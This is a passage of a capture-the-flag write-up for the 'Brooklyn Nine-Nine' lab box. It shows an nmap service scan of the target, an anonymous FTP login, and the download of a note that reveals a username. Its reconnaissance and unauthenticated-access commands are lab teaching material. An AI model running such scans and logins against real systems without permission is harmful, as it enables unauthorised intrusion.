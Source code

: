 
## Brooklyn Nine-Nine

Scan target IP Address
```
nmap -sV -sC  10.10.208.225

21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.159.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```
Exploitable anonymous ftp login allowed 

Login to FTP with no password
```
ftp <target_ipaddress> 

Name (10.10.208.225:root): anonymous 
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

List directory and download text file
```
ftp> dir
ftp> get note_to_jake.txt
ftp> exit

cat note_to_jake.txt
```
Reading the note tells me that the name of one the users needed to login is Jake
